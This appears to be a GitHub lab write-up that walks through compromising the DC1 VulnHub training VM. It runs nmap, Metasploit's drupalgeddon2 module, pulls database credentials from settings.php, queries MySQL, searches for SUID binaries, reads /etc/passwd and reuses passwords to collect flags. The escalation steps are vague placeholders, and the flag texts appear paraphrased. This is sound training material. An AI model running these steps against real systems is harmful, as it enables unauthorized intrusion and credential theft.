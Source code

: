 # Home Hacking Lab: DC1 VulnHub Machine Exploitation

## Description
This section of the home hacking lab project focuses on downloading and exploiting the DC1 VulnHub machine. The primary objective is to practice and enhance cybersecurity skills through hands-on exercises in vulnerability scanning, exploitation, and post-exploitation techniques, culminating in the capture of multiple flags.

## Apps, Languages, & Utilities Used
- **Virtualization Software:** VirtualBox
- **Operating Systems:** Kali Linux, DC1 VulnHub machine
- **Security Tools:** Metasploit, nmap, Hydra, LinPEAS, MySQL
- **Scripting:** Bash

## Environments Used
- **Kali Linux:** Attacker Machine
- **DC1 VulnHub Machine:** Vulnerable VM

## Objective
The objective is to exploit the DC1 VulnHub machine by identifying and capturing flags, thereby gaining practical experience in cybersecurity concepts, tools, and techniques.

## Skills Learned
- Setting up VMs in Oracle VM VirtualBox.
- Performing vulnerability scanning using nmap.
- Exploiting web application vulnerabilities using Metasploit.
- Brute-forcing login credentials using Hydra.
- Capturing and analyzing database credentials.
- Performing privilege escalation and capturing flags on a vulnerable machine.
- Documenting and reporting exploitation techniques.

## Steps Taken

### Download and Setup DC1 VulnHub Machine

#### Download DC1 Machine from VulnHub
- Navigate to VulnHub and search for DC1 or go directly to the [DC1 VulnHub page](https://www.vulnhub.com/entry/dc-1,292/).
- Download the DC1 machine and extract the contents.

#### Import the DC1 Machine into VirtualBox
- Open VirtualBox and go to `File > Import Appliance`.
- Select the extracted DC1 file and follow the prompts to complete the import.

#### Configure Network Settings
- Adjust the network adapter to NAT Network and select the appropriate network.

#### Start the DC1 VM
- Boot up the DC1 VM and ensure it is running properly.

### Exploitation of DC1 VulnHub Machine

#### Flag 1: Initial Enumeration and Exploitation
**Objective:** Identify and capture the first flag by exploiting the web application.

##### Verify DC1 Machine is Running
- Ensure the DC1 machine is up and running by pinging its IP address:
  ```bash
  ping 10.0.200.6

Information Gathering
Perform an nmap scan to identify open ports and services:
bash
Copy code
nmap -A -sC -oN dc.txt 10.0.200.6
Enumerate the Web Application
Access the web application running on port 80 and identify that it is using Drupal.
Use Metasploit to find and exploit vulnerabilities in Drupal:
bash
Copy code
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 10.0.200.6
run
Capture Initial Flag
Once you gain a shell, navigate the file system to find the first flag:
bash
Copy code
find / -name flag1.txt
cat /path/to/flag1.txt
Flag 1 Content: "Every good CMS needs a config file."
Flag 2: Database Enumeration and Exploitation
Objective: Identify and capture the second flag by exploiting the database.

Identify Configuration Files
Use the hint from Flag 1 to locate the Drupal configuration file:
bash
Copy code
cat /var/www/html/sites/default/settings.php
Find Database Credentials
Extract database credentials from the configuration file.
Connect to the Database
Use the credentials to connect to the MySQL database:
bash
Copy code
mysql -u dbuser -p
Enumerate Database and Capture Flag
Enumerate the database to find the second flag:
bash
Copy code
show databases;
use drupal;
show tables;
select * from flags;
Flag 2 Content: "Brute force and directory attacks aren't the only way to gain access."
Flag 3: Privilege Escalation and System Enumeration
Objective: Identify and capture the third flag by performing privilege escalation.

Identify Weak Configurations
Search for files with weak permissions or misconfigurations that could allow privilege escalation:
bash
Copy code
find / -perm -4000 -type f 2>/dev/null
Exploit Weakness
Use tools like GTFOBins to escalate privileges:
bash
Copy code
/path/to/vulnerable_binary
Capture Third Flag
Once privileges are escalated, navigate the file system to find the third flag:
bash
Copy code
find / -name flag3.txt
cat /path/to/flag3.txt
Flag 3 Content: "There's more than one way to skin a cat."
Flag 4: User Enumeration and Exploitation
Objective: Identify and capture the fourth flag by exploiting user credentials.

Enumerate Users
List all users on the system and look for interesting files in their home directories:
bash
Copy code
cat /etc/passwd
ls /home
Check for Reused Passwords
Try using previously discovered passwords to switch to different users:
bash
Copy code
su - username
Capture Fourth Flag
Navigate the user's home directory to find the fourth flag:
bash
Copy code
find /home -name flag4.txt
cat /path/to/flag4.txt
Flag 4 Content: "You can use the same method to find or access the root flag."
Final Flag: Root Privilege Escalation
Objective: Identify and capture the final flag by gaining root access.

Identify Privilege Escalation Vector
Look for misconfigurations or software vulnerabilities that allow root access.
Use tools like LinPEAS or manual enumeration to identify vectors.
Exploit and Gain Root Access
Perform the privilege escalation to gain root access:
bash
Copy code
/path/to/exploit
Capture Final Flag
Navigate to the root directory and find the final flag:
bash
Copy code
cd /root
cat final_flag.txt
Final Flag Content: "Well done! You have completed the DC1 challenge."
